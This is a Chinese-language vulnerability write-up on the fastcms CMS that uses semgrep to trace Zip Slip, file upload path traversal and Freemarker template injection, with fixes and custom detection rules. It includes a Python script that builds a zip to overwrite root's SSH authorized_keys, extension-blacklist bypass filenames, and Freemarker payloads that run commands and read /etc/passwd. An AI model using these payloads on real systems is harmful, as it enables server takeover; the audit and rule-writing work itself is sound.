


## 0x01CNNVD-202303-341 Zip Slip目录穿越

### 漏洞分析 

使用git checkout切换到漏洞版本

```bash
git checkout 43f2b849
```

之后再使用semgrep进行扫描

```bash
 semgrep -c semgrep-rules/java/ fastcms -o res/test.json  --json
```

生成的结果以json格式输出并保存在res目录中。并没有直接的显示出哪里存在Zip Slip漏洞，但是搜索路径穿越的第一个结果和Zip有关。



```json
"check_id": "semgrep-rules.java.spring.security.injection.tainted-file-path",
"end": {
    "col": 90,
    "line": 118,
    "offset": 4228
},
"extra": {
    "dataflow_trace": {
        "intermediate_vars": [
            {
                "content": "file",
                "location": {
                    "end": {
                        "col": 64,
                        "line": 105,
                        "offset": 3611
                    },
                    "path": "fastcms/cms/src/main/java/com/fastcms/cms/controller/admin/TemplateController.java",
                    "start": {
                        "col": 60,
                        "line": 105,
                        "offset": 3607
                    }
                }
            }
        ],
        "taint_sink": [
            "CliLoc",
            [
                {
                    "end": {
                        "col": 90,
                        "line": 118,
                        "offset": 4228
                    },
                    "path": "fastcms/cms/src/main/java/com/fastcms/cms/controller/admin/TemplateController.java",
                    "start": {
                        "col": 27,
                        "line": 118,
                        "offset": 4165
                    }
                },
                "new File(DirUtils.getTemplateDir(), file.getOriginalFilename())"
            ]
        ],
        "taint_source": [
            "CliLoc",
            [
                {
                    "end": {
                        "col": 64,
                        "line": 105,
                        "offset": 3611
                    },
                    "path": "fastcms/cms/src/main/java/com/fastcms/cms/controller/admin/TemplateController.java",
                    "start": {
                        "col": 60,
                        "line": 105,
                        "offset": 3607
                    }
                },
                "file"
            ]
        ]
    },
    "engine_kind": "OSS",
    "fingerprint": "7cf97a44bb43941a89122779cd7178c35a425944f80bf36697b81e167ae95055a21391511ab58ec63fd43679d6fda871e70b05945e4a0bccab6d7094d4ba558f_0",
    "is_ignored": false,
    "lines": "        File uploadFile = new File(DirUtils.getTemplateDir(), file.getOriginalFilename());",
    "message": "Detected user input controlling a file path. An attacker could control the location of this file, to include going backwards in the directory with '../'. To address this, ensure that user-controlled variables in file paths are sanitized. You may also consider using a utility method such as org.apache.commons.io.FilenameUtils.getName(...) to only retrieve the file name from the path.",
    "metadata": {
        "category": "security",
        "confidence": "HIGH",
        "cwe": [
            "CWE-23: Relative Path Traversal"
        ],
        "impact": "HIGH",
        "interfile": true,
        "likelihood": "MEDIUM",
        "owasp": [
            "A01:2021 - Broken Access Control"
        ],
        "references": [
            "https://owasp.org/www-community/attacks/Path_Traversal"
        ],
        "subcategory": [
            "vuln"
        ],
        "technology": [
            "java",
            "spring"
        ]
    },
    "metavars": {
        "$METHODNAME": {
            "abstract_content": "install",
            "end": {
                "col": 23,
                "line": 105,
                "offset": 3570
            },
            "start": {
                "col": 16,
                "line": 105,
                "offset": 3563
            }
        },
        "$REQ": {
            "abstract_content": "RequestParam",
            "end": {
                "col": 37,
                "line": 105,
                "offset": 3584
            },
            "start": {
                "col": 25,
                "line": 105,
                "offset": 3572
            }
        },
        "$SOURCE": {
            "abstract_content": "file",
            "end": {
                "col": 64,
                "line": 105,
                "offset": 3611
            },
            "start": {
                "col": 60,
                "line": 105,
                "offset": 3607
            }
        },
        "$TYPE": {
            "abstract_content": "MultipartFile MultipartFile MultipartFile MultipartFile MultipartFile",
            "end": {
                "col": 59,
                "line": 105,
                "offset": 3606
            },
            "start": {
                "col": 46,
                "line": 105,
                "offset": 3593
            }
        }
    },
    "severity": "ERROR",
    "validation_state": "NO_VALIDATOR"
},
"path": "fastcms/cms/src/main/java/com/fastcms/cms/controller/admin/TemplateController.java",
"start": {
    "col": 27,
    "line": 118,
    "offset": 4165
}
}
```

根据信息，source为TemplateController的105行，sink为118行，如下图所示：



可以看出这里参数“file”可控，确实存在目录穿越，但是因为限定了zip后缀，所以危害不大，也不是此次的重点。跟进第121行的install方法，如下：

```java
public void install(File file) throws Exception {
    String name = file.getName();
    name = name.substring(0, name.lastIndexOf("."));
    final String path = StrUtils.SLASH.concat(name).concat(StrUtils.SLASH);

    if(checkPath(path)) {
        throw new RuntimeException(String.format(I18nUtils.getMessage(CMS_TEMPLATE_PATH_IS_EXIST), path));
    }

    FileUtils.unzip(file.toPath(), DirUtils.getTemplateDir());

    //check properties
    String templatePath = getTemplateRootPath().toString().concat(path);
    Template template = templateFinder.find(Paths.get(templatePath));
    if (template == null || StringUtils.isBlank(template.getId()) || StringUtils.isBlank(template.getPath())) {
        //上传的zip文件包不符合规范 删除
        org.apache.commons.io.FileUtils.deleteDirectory(Paths.get(templatePath).toFile());
        throw new RuntimeException(String.format(I18nUtils.getMessage(CMS_TEMPLATE_PATH_MISSING_REQUIRED_ATTR), path));
    }
}
```

继续跟进zip解压函数unzip，如下：

```java
public static void unzip(Path path, String destDir) {
    try (InputStream fis = Files.newInputStream(path);
         InputStream bis = new BufferedInputStream(fis);
         ArchiveInputStream ais = new ZipArchiveInputStream(bis)) {

        ArchiveEntry entry;
        while (Objects.nonNull(entry = ais.getNextEntry())) {
            if (!ais.canReadEntryData(entry)) {
                continue;
            }

            String name = filename(destDir, entry.getName());
            File f = new File(name);
            if (entry.isDirectory()) {
                if (!f.isDirectory() && !f.mkdirs()) {
                    f.mkdirs();
                }
            } else {
                File parent = f.getParentFile();
                if (!parent.isDirectory() && !parent.mkdirs()) {
                    throw new IOException("failed to create directory " + parent);
                }
                try (OutputStream o = Files.newOutputStream(f.toPath())) {
                    IOUtils.copy(ais, o);
                }
            }
        }
    } catch (IOException e) {
        e.printStackTrace();
    }
}
```

这里直接使用`entry.getName()`获取压缩包内文件名，并没有做过滤，就导致了Zip Slip漏洞。详见：

+ https://xz.aliyun.com/t/12081#toc-2

所以如果使用脚本构造出特殊文件名的压缩包，就可以实现在解压时实现目录穿越：

```python
import zipfile

if __name__ == "__main__":
    try:
        zipFile = zipfile.ZipFile("poc.zip", "a", zipfile.ZIP_DEFLATED)  ##生成的zip文件
        info = zipfile.ZipInfo("poc.zip")
        zipFile.write("authorized_keys", "../../../../root/.ssh/authorized_keys", zipfile.ZIP_DEFLATED)  ##压缩的文件和在zip中显示的文件名
        zipFile.close()
    except IOError as e:
        raise e
```

### 漏洞修复

作者使用了zt-zip-1.15组件，但是注意如果版本低于1.13，这个组件本身也存在zip slip漏洞，其修复方法如下:

```java
private static File checkDestinationFileForTraversal(File outputDir, String name, File destFile) throws IOException {
    if (name.indexOf("..") != -1 && !destFile.getCanonicalPath().startsWith(outputDir.getCanonicalPath())) {
        throw new MaliciousZipException(outputDir, name);
    } else {
        return destFile;
    }
}
```

检查是否含有`..`，并且将路径规范化（getCanonicalPath会去掉..等相对路径符号）后，判断是不是正确目录。

### 完善规则

大致思路为：

+ 变量A操作xxEntry.getName，拼接或者传入函数
+ new File(..., 变量A)

```yaml
rules:
  - id: zip-slip
    patterns:
      - metavariable-pattern:
          metavariable: $NAME
          pattern-regex: (.*)[e|E](.*)
      - pattern-either:
          - pattern: |
              $A = $B(..., $NAME.getName());
              ...
          - pattern: |
              $A = ... + $NAME.getName();
              ...
          - pattern: $NAME.getName()
      - pattern: 
          $C = new File(...,$A)
    message: please filter the entry.getName()
    languages:
      - java
    severity: ERROR
```

测试一下：

```bash
 semgrep -c MySemgrepRules/file-path-traversal fastcms
```

成功检出，好耶，以后又可以躺着收漏洞了。

## 0x02 文件上传

### 漏洞分析

在Vscode使用“Relative Path Traversal”，筛选semgrep的结果，总共有6处。这里第三处如下：

```json
"taint_sink": [
    "CliLoc",
    [
        {
            "end": {
                "col": 92,
                "line": 305,
                "offset": 11039
            },
            "path": "fastcms/cms/src/main/java/com/fastcms/cms/controller/admin/TemplateController.java",
            "start": {
                "col": 31,
                "line": 305,
                "offset": 10978
            }
        },
        "new File(templatePath.toString(), file.getOriginalFilename())"
    ]
],
"taint_source": [
    "CliLoc",
    [
        {
            "end": {
                "col": 81,
                "line": 277,
                "offset": 9958
            },
            "path": "fastcms/cms/src/main/java/com/fastcms/cms/controller/admin/TemplateController.java",
            "start": {
                "col": 76,
                "line": 277,
                "offset": 9953
            }
        },
        "files"
    ]
]
```

根据信息，找到对应的代码如下：

```java
@PostMapping("files/upload")
@ExceptionHandler(value = MultipartException.class)
@Secured(name = RESOURCE_NAME_TEMPLATE_FILE_UPLOAD, resource = "templates:files/upload", action = ActionTypes.WRITE)
public Object upload(String dirName, @RequestParam("files") MultipartFile files[]) {

    if(StringUtils.isBlank(dirName) || dirName.contains("..")) {
        return RestResultUtils.failed(I18nUtils.getMessage(CMS_TEMPLATE_FILE_UPLOAD_DIR_NOT_NULL));
    }

    Template currTemplate = templateService.getCurrTemplate();
    if(currTemplate == null) {
        return RestResultUtils.failed(I18nUtils.getMessage(CMS_TEMPLATE_NOT_EXIST));
    }

    if(files == null || files.length <=0) {
        return RestResultUtils.failed(I18nUtils.getMessage(CMS_TEMPLATE_FILE_UPLOAD_EMPTY));
    }

    Path templatePath = getFilePath(dirName);
    if(templatePath == null || !Files.exists(templatePath)) {
        return RestResultUtils.failed(I18nUtils.getMessage(CMS_TEMPLATE_FILE_UPLOAD_DIR_NOT_EXIST));
    }

    List<String> errorFiles = new ArrayList<>();

    for(MultipartFile file : files) {

        if(FileUtils.isNotAllowFile(file.getOriginalFilename())) {
            continue;
        }

        File uploadFile = new File(templatePath.toString(), file.getOriginalFilename());
        try {
            if (!uploadFile.getParentFile().exists()) {
                uploadFile.getParentFile().mkdirs();
            }
            file.transferTo(uploadFile);
        } catch (IOException e) {
            e.printStackTrace();
            if(uploadFile != null) {
                uploadFile.delete();
            }
            errorFiles.add(file.getOriginalFilename());
        }
    }

    return errorFiles.isEmpty() ? RestResultUtils.success()
        : RestResultUtils.failed(errorFiles.stream().collect(Collectors.joining(",")).concat(I18nUtils.getMessage(ATTACHMENT_FILE_UPLOAD_LIST_FAIL)));
}
```

`file.getOriginalFilename()`没有进行目录穿越判断，但是使用`FileUtils.isNotAllowFile(file.getOriginalFilename())`进行了后缀名过滤，跟进：

```java
notAllowFile.add(".jsp");
notAllowFile.add(".jspx");
notAllowFile.add(".php");
notAllowFile.add(".exe");
notAllowFile.add(".sh");
notAllowFile.add(".bat");
notAllowFile.add(".jar");
notAllowFile.add(".war");

public static boolean isNotAllowFile(String fileName) {
    String suffix = getSuffix(fileName);
    if(StringUtils.isNotBlank(suffix)) {
        return notAllowFile.contains(suffix.toLowerCase());
    }
    return false;
}

public static String getSuffix(String fileName) {
    if (fileName != null && fileName.contains(".")) {
        return fileName.substring(fileName.lastIndexOf("."));
    }
    return "";
}
```

获取文件名中最后一个`.`及其后的内容作为后缀，然后黑名单判断。在windows下，如果传入`shell.jsp.`，获取到的后缀会是`.`，此时就成功通过了黑名单判断，并且因为windows会自动去除文件后的点，所以可以成功上传，`::$DATA`同理。

另外，这里因为是黑名单，有权限的情况下，通过目录穿越可以在任意目录写入任意内容，比如`../../../.ssh/authorized_keys `。

PluginController中也有将jar和zip上传至任意位置的安全问题。

## 0x03 Freemarker模板注入

### 漏洞分析

通过使用内置函数new，可创建任意实现了`TemplateModel`接口的Java对象，借助`freemarker.template.utility.JythonRuntime`、`freemarker.template.utility.Execute`、`freemarker.template.utility.ObjectConstructor`这三个类可以实现RCE：

```java
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc")</@value>
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc")}
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","open -a Calculator").start()}
```

参考：https://tttang.com/archive/1412/#toc_api

或者使用内置的api函数来调用恶意类、读取文件：

```java
<#assign classLoader=object?api.class.getClassLoader()>${classLoader.loadClass("Evil.class")}

<#assign uri=object?api.class.getResource("/").toURI()>
  <#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
  <#assign is=input?api.getInputStream()>
  FILE:[<#list 0..999999999 as _>
      <#assign byte=is.read()>
      <#if byte == -1>
          <#break>
      </#if>
  ${byte}, </#list>]
```

### 漏洞修复

通过setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER)来设置解析规则：

1、UNRESTRICTED_RESOLVER：可以通过 `ClassUtil.forName(className)` 获取任何类。
2、SAFER_RESOLVER：不能加载 `freemarker.template.utility.JythonRuntime`、`freemarker.template.utility.Execute`、`freemarker.template.utility.ObjectConstructor`这三个类。
3、ALLOWS_NOTHING_RESOLVER：不能解析任何类。
可通过`freemarker.core.Configurable#setNewBuiltinClassResolver`方法设置`TemplateClassResolver`，从而限制通过`new()`函数对`freemarker.template.utility.JythonRuntime`、`freemarker.template.utility.Execute`、`freemarker.template.utility.ObjectConstructor`这三个类的解析。

### 完善规则

https://semgrep.dev/r?q=gitlab.find_sec_bugs.TEMPLATE_INJECTION_PEBBLE-1.TEMPLATE_INJECTION_FREEMARKER-1.TEMPLATE_INJECTION_VELOCITY-1

官方有一条，但是简单测试了一下，漏检率有点高。其实好像也没什么好思路，直接检查是否引入并使用Freemarker算了，这样虽然会提高误报率，但是最少没有漏报。

```java
rules:
  - id: ssti-freemarker
    patterns:
      - pattern: |
          import freemarker
          ...
      - pattern:
          $CON.setTemplateLoader
    message:  please set TemplateClassResolver.SAFER_RESOLVER to filter
    languages:
      - java
    severity: ERROR
```

跑了一下，效果还不错


